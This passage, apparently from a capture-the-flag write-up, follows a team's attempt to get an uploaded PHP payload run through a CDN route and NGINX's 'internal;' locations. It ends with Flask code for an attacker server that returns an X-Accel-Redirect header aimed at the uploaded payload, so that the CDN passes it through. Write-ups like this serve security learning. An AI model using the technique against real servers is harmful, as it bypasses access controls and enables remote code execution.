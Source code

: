 ![payload.png](../../resources/240d9aee8f7d4198a4b8f75cd4a4ebf7.png)

...upload our new payload, and then ask the CDN to fetch that new payload:

![5940d9b369a51692b6b1ca3df51bfef8.png](../../resources/5c97b01d13dc440a9c708726a50a19f8.png)

...except that also doesn't work. Huh.

![7c9cdf942e3f2d83f90960a2747426d6.png](../../resources/c7e6a9ae075247d4b41f5cd66bb0d4f6.png)

At this point my team decided to go to dinner together, where we enjoyed the fine Italian cuisine at Epicuria (at Covel (at UCLA)).

<details><summary>Most Cooked Fish at Epic</summary></details>
<br>

But while digesting UCLA's food poisoning, I re-read the docs for `internal;` and realized _why_ the above idea hadn't worked - even a request from the CDN isn't considered an internal request, since that isn't routed by NGINX! In order to truly be considered an internal request, according to the docs, we need to either:

- redirect from a directive in `default.conf`, which we have no control over
- or return `X-Accel-Redirect` from an "upstream server"

There aren't any `upstream` directives in the `default.conf` file, so at first I thought this was a dead end. But after [reading a bit more](https://blog.horejsek.com/nginx-x-accel-explained/) of the (surprisingly little documentation) on `X-Accel-Redirect`, I discovered that NGINX treats `*_pass` servers as upstream servers for the purpose of `X-Accel-Redirect`.

Wait. Doesn't the CDN return pretty much every header passed to it?

```py
@app.route("/cdn/<path:url>")
def cdn(url):
    // -- snip --
    img_resp = make_response(r.raw.read(), 200)
    for header in r.headers:
        if header == "Date" or header == "Server":
            continue
        img_resp.headers[header] = r.headers[header]
    return img_resp
```

Things are about to get interesting.

## it works on my machine:tm:

![21453163e08a8a0f18736681e9c42b11.png](../../resources/18c3cd5aca3143dc9fede9480ab5ad07.png)

Modifying some of the code in the above reading, we can throw together a server that returns a bogus image with a redirect to our payload:

```py
from flask import *

app = Flask(__name__)

@app.route("/trigger.png")
def cdn():
    print("trigger!")
    response = make_response()
    response.headers['Content-Type'] = 'image/png'
    response.headers['X-Accel-Redirect'] = '/uploads/e4c7c7c2e9305.png/pbr.php'
    return response


if __name__ == "__main__":
    app.run(debug=False, host='0.0.0.0', port=8082)
```